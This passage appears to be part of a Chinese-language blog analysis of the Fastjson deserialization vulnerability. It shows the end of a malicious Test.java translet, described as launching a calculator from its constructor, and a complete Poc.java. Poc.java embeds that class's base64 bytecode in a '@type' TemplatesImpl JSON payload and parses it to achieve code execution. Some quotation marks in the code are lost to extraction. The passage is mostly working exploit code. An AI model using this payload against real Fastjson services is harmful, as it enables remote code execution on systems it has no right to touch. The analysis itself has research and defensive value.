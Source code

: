 ```
    public void transform(DOM document, com.sun.org.apache.xml.internal.serializer.SerializationHandler[] handlers) throws TransletException {
    }
    public static void main(String[] args) throws Exception {
        Test t = new Test();
    }
}
```

这个是Test.java的实现，在Test.java的构造函数中执行了一条命令，弹出计算器。编译Test.java得到Test.class供后续使用。后续会将Test.class的内容赋值给_bytecodes。接着分析poc



```
package person;
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.parser.Feature;
import com.alibaba.fastjson.parser.ParserConfig;
import org.apache.commons.io.IOUtils;
import org.apache.commons.codec.binary.Base64;
import java.io.ByteArrayOutputStream;
import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
/**
 * Created by web on 2017/4/29.
 */
public class Poc {
    public static String readClass(String cls){
        ByteArrayOutputStream bos = new ByteArrayOutputStream();
        try {
            IOUtils.copy(new FileInputStream(new File(cls)), bos);
        } catch (IOException e) {
            e.printStackTrace();
        }
        return Base64.encodeBase64String(bos.toByteArray());
    }
    public static void  test_autoTypeDeny() throws Exception {
        ParserConfig config = new ParserConfig();
        final String fileSeparator = System.getProperty("file.separator");
        final String evilClassPath = System.getProperty("user.dir") + "\target\classes\person\Test.class";
        String evilCode = readClass(evilClassPath);
        final String NASTY_CLASS = "com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl";
        String text1 = "{"@type":"" + NASTY_CLASS +
                "","_bytecodes":[""+evilCode+""],'_name':'a.b',"_outputProperties":{ }," +
                ""_name":"a","_version":"1.0","allowedProtocols":"all"}n";
        System.out.println(text1);
        Object obj = JSON.parseObject(text1, Object.class, config, Feature.SupportNonPublicField);
        //assertEquals(Model.class, obj.getClass());
    }
    public static void main(String args[]){
        try {
            test_autoTypeDeny();
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
